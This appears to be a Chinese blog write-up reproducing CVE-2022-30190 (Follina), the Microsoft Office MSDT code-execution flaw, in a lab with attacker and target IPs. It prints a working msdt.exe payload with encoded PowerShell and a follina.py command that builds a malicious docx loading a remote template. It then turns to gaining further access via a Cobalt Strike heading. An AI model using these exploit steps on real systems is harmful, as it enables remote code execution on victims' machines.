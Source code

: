 # 原创
：  CVE-2022-30190:Microsoft office MSDT 代码执行漏洞

# CVE-2022-30190:Microsoft office MSDT 代码执行漏洞

### 漏洞概述

该漏洞首次发现在2022 年 5 月 27 日，由白俄罗斯的一个 IP 地址上传。恶意文档从 Word 远程模板功能从远程 Web 服务器检索 HTML 文件，通过 ms-msdt MSProtocol URI方法来执行恶意PowerShell代码。感染过程利用 Windows 程序 msdt.exe，该程序用于运行各种 Windows 疑难解答程序包。此工具的恶意文档无需用户交互即可调用它。导致在宏被禁用的情况下，恶意文档依旧可以使用 `ms-msdt` URI执行任意PowerShell代码。

### 影响版本

目前已知影响的版本为：

漏洞复现

##### 官方payload

```
msdt.exe /id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'YwBhAGwAYwA='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe"
```

在cmd中运行即可弹出计算器：

##### 环境部署

office下载地址：<br/>`https://otp.landian.vip/zh-cn/download.html`<br/> 因为已经部署好了，简单截图说明一下：

<br/> windows环境用了：

##### 环境说明：

攻击机ip：192.168.84.205<br/> 目标靶机ip：192.168.84.185

##### 使用poc1：

下载地址：<br/>`https://github.com/chvancooten/follina.py`<br/> 在攻击机执行：<br/>`python3 .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 192.168.84.205`<br/> 生成恶意docx文档：

<br/> 将clickme.docx放在靶机打开：

<br/> 这里远程加载恶意文件，生活中遇到这种情况可以警惕了。<br/> 程序错误诊断，然后弹出计算器：

攻击机可以看到远程加载请求：

复现成功。<br/> 我们肯定不满足于弹出计算器，如何深度利用获取权限呢？

##### 使用poc2

poc1的命令执行没看懂。<br/> 下载地址：<br/>`https://github.com/JohnHammond/msdt-follina`

##### CS上线
